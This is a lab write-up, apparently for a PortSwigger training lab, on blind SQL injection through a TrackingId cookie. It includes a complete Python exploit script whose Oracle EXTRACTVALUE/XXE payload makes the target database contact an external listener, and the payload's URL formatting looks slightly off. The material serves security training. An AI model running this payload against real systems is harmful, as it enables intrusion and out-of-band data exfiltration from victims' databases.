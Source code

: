 ```yaml
---
title: 'SQLi Lab 16'
description: 'Blind SQL injection with out-of-band interaction using Burp Collaborator'
---
```



## Blind SQL injection with out-of-band interaction

<div style="text-align: justify;">
  This lab demonstrates a blind SQL injection vulnerability where the application's tracking cookie (`TrackingId`) is used in an asynchronous SQL query. The query does not affect the application's response, so traditional error-based or content-based techniques do not work. Instead, out-of-band (OOB) interactions can be triggered by causing the database to initiate DNS or HTTP requests to an external server, such as Burp Collaborator.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The `TrackingId` cookie is vulnerable to SQL injection.
- Construct an Oracle `EXTRACTVALUE` XML payload to trigger a request to an external listener.
- Use the Burp Collaborator public server or another OOB listener to detect DNS/HTTP interactions.
- The lab is solved once a request from the target is observed by your listener.
- This method simulates real-world scenarios where blind SQL injection can exfiltrate data asynchronously.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
"""
oob_sqli_exploit.py

Exploit Blind SQL Injection with Out-of-Band (OOB) interaction.
Supports Burp Collaborator, Webhook.site, RequestBin, or your own server.

Usage:
    python oob_sqli_exploit.py <url> <listener-url>

Example:
    python oob_sqli_exploit.py https://target.lab https://abcd1234.oastify.com
"""

import sys
import requests
import urllib3

# Disable SSL warnings
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Optional: Proxy through Burp (use {} if not needed)
proxies = {"http": "http://127.0.0.1:8080",
           "https": "http://127.0.0.1:8080"}


def grab_initial_cookies(url: str):
    """Fetch initial cookies from target lab."""
    r = requests.get(url, verify=False, proxies=proxies, timeout=15)
    tracking_id = r.cookies.get("TrackingId")
    session_cookie = r.cookies.get("session")

    if not tracking_id or not session_cookie:
        print("[-] Failed to grab TrackingId/session cookie.")
        sys.exit(1)

    return tracking_id, session_cookie


def build_payload(listener_url: str) -> str:
    """
    Build an Oracle XXE payload that triggers OOB DNS/HTTP lookup
    to the given listener_url.
    """
    return (
        f"'||(SELECT EXTRACTVALUE(xmltype('<?xml version=\"1.0\" encoding=\"UTF-8\"?><!DOCTYPE root [ <!ENTITY %25 remote SYSTEM \"http://f{listener_url}/\"> %25remote%3b]>'),'/l') FROM dual)-- -"
    )


def send_payload(url: str, tracking_id: str, session_cookie: str, payload_suffix: str):
    """Send malicious TrackingId cookie with OOB payload."""
    cookies = {
        "TrackingId": tracking_id+payload_suffix,
        "session": session_cookie
    }
    print("[*] Sending payload...")
    try:
        r = requests.get(url, cookies=cookies, verify=False, proxies=proxies, timeout=10)
        print(f"[+] HTTP {r.status_code} received.")
    except requests.exceptions.RequestException as e:
        print(f"[!] Request failed: {e}")


def main():
    if len(sys.argv) != 3:
        print("Usage: python oob_sqli_exploit.py <url> <listener-url>")
        sys.exit(1)

    url = sys.argv[1].rstrip("/")
    listener = sys.argv[2].rstrip("/")

    print(f"[*] Target: {url}")
    print(f"[*] Listener: {listener}")

    tracking_id, session_cookie = grab_initial_cookies(url)
    print(f"[*] Got TrackingId: {tracking_id}")
    print(f"[*] Got session: {session_cookie}")

    payload_suffix = build_payload(listener)
    send_payload(url, tracking_id, session_cookie, payload_suffix)

    print("\n[*] Payload sent!")
    print("    → Now check your listener (Collaborator / Webhook.site / RequestBin).")
    print("    → If you see a request from the target, the lab is solved ✅.")


if __name__ == "__main__":
    main()
```